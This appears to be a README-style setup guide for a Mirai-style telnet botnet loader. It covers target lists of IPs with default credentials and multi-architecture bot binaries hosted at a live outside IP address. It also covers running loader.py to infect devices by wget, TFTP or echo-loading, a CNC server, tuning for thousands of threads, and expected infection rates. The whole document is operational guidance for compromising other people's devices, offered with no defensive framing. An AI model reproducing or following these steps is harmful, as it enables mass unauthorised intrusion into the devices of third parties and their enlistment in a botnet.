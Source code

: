 # Loader.py Setup Guide

## Prerequisites

### 1. **Required Files**
- ✅ `loader.py` - Main loader script
- ✅ `bins/` directory with all architecture binaries
- ✅ Target list file (e.g., `telnet.txt`, `list.txt`)
- ✅ Python 2.7 (script uses Python 2 syntax)

### 2. **Binary Files Required**
Ensure these files exist in `/root/loader/bins/`:
```
static.x86      - x86 architecture
static.arm      - ARM architecture  
static.arm5     - ARM v5
static.arm6     - ARM v6
static.arm7     - ARM v7
static.mips     - MIPS architecture
static.mpsl     - MIPS Little Endian
static.ppc      - PowerPC
static.m68k     - Motorola 68000
static.spc      - SPARC
static.i686     - Intel 686
static.sh4      - SuperH-4
static.arc      - ARC
```

## Setup Steps

### 1. **Prepare Target List**
Create a target list file with format: `IP:PORT USER:PASS`
```bash
# Example telnet.txt:
192.168.1.1:23 admin:admin
10.0.0.1:23 root:12345
172.16.0.1:23 user:password
```

### 2. **Verify Binary Files**
```bash
cd /root/loader
ls -la bins/static.*
# Should show all architecture binaries
```

### 3. **Test HTTP Server**
```bash
# Test if binaries are accessible
curl -I http://185.247.117.214/bins/static.arm
# Should return 200 OK
```

### 4. **Run the Loader**
```bash
cd /root/loader
python loader.py telnet.txt
```

## Configuration Options

### **Thread Count**
- **Recommended**: 50-200 threads
- **High Performance**: 200-500 threads
- **Maximum**: 1000+ threads (system dependent)

### **Target List Format**
```
IP:PORT USER:PASS
192.168.1.1:23 admin:admin
10.0.0.1:23 root:12345
```

### **Output Files**
- `bots.txt` - All successful logins
- `infected.txt` - Successfully infected devices
- `echoes.txt` - Devices that received echo-loaded binaries

## Performance Optimization

### **1. System Limits**
```bash
# Increase file descriptor limits
ulimit -n 999999

# Increase network buffer sizes
echo 'net.core.rmem_max = 134217728' >> /etc/sysctl.conf
echo 'net.core.wmem_max = 134217728' >> /etc/sysctl.conf
sysctl -p
```

### **2. Network Optimization**
```bash
# Increase connection limits
echo 'net.core.somaxconn = 65535' >> /etc/sysctl.conf
echo 'net.ipv4.tcp_max_syn_backlog = 65535' >> /etc/sysctl.conf
sysctl -p
```

### **3. Python Optimization**
```bash
# Install required packages
pip install psutil

# Set environment variables
export PYTHONUNBUFFERED=1
```

## Monitoring and Logs

### **Real-time Status**
The loader shows:
- **Logins**: Successful telnet logins
- **Ran**: Successfully infected devices
- **Echoes**: Echo-loaded devices
- **Wgets**: Devices using wget method
- **TFTPs**: Devices using TFTP method

### **Output Files**
```bash
# Monitor progress
tail -f bots.txt
tail -f infected.txt
tail -f echoes.txt
```

## Troubleshooting

### **Common Issues**

1. **"No such file or directory"**
   - Check if binaries exist in `bins/` directory
   - Verify file permissions

2. **Connection timeouts**
   - Reduce thread count
   - Check network connectivity
   - Verify target IPs are reachable

3. **Low infection rates**
   - Check if CNC server is running
   - Verify binary files are accessible via HTTP
   - Check target credentials

### **Debug Mode**
```bash
# Run with debug output
python -u loader.py telnet.txt
```

## Advanced Configuration

### **Custom Binary Paths**
Edit `rekdevice` variable in `loader.py` to change:
- Download URLs
- Binary names
- Execution commands

### **Custom Timeouts**
Modify timeout values in the script:
- Connection timeout: `tn.settimeout(0.5)`
- Read timeout: `timeout=8`
- Sleep intervals: `time.sleep()`

## Best Practices

1. **Start with small target lists** (100-1000 IPs)
2. **Monitor system resources** during scanning
3. **Use appropriate thread counts** for your system
4. **Keep logs** for analysis
5. **Test with known working targets** first

## Example Usage

```bash
# Basic usage
python loader.py telnet.txt

# With monitoring
python loader.py telnet.txt &
tail -f bots.txt infected.txt

# High performance
ulimit -n 999999
python loader.py telnet.txt
```

## Expected Results

- **Login Rate**: 10-30% of targets
- **Infection Rate**: 5-15% of successful logins
- **Echo Success**: 2-8% of infections
- **Total Success**: 0.1-2% of all targets

